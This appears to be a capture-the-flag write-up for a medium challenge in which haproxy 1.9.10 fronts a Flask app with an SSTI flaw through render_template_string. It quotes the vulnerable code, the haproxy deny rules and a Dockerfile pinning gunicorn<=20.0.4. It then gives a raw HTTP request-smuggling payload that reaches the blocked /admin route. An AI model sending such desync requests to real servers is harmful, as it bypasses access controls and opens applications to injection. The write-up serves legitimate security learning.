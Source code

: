 ## SMG | Medium

> This is related to HTTP Descync

The challenge contained a `haproxy` behind which a flask app is running. The web app is basically vulnerable to SSTI. The vulnerable function on the backend is:
```python
@app.post("/admin")
def admin():
    user_input = request.form.get('input')
    print(user_input, file=sys.stderr)
    if any(bl_item in user_input for bl_item in blacklist):
        return "Blocked input!"


    try:
        return render_template_string(f"Output: {user_input}")
    except Exception as e:
        return str(e)
```

The input from user is being directly passed through `render_template_string` function. This looks quite straight forward. However, `haproxy` doesn't let us access URL:
```conf
frontend http
    bind *:80
    default_backend web

    acl restricted_page path_sub -i admin
    http-request deny if restricted_page
    acl restricted_page path_sub %
    http-request deny if restricted_page
```

Morever, with second ACL condition, its also difficult to provide `URL-encoded` strings. Reading the code, we are using a very specific version of `gunicorn` in `Dockerfile`:
```Dockerfile
FROM haproxy:1.9.10

USER root

RUN apt update -y
RUN apt install -y python3 python3-pip

RUN pip3 install -v 'gunicorn<=20.0.4'
RUN pip3 install flask
```

The version `gunicorn<=20.0.4` is very specific here to be exact. Looking online, i came across an HTTP Desync in this very specific version. Reading the blogs, i found a request specific for `haproxy` with `gunicorn`:
```
GET / HTTP/1.1
Host: localhost
Content-Length: 68
Sec-Websocket-Key1: x

xxxxxxxxGET /admin HTTP/1.1
Host: localhost
Content-Length: 35

GET / HTTP/1.1
Host: localhost

```
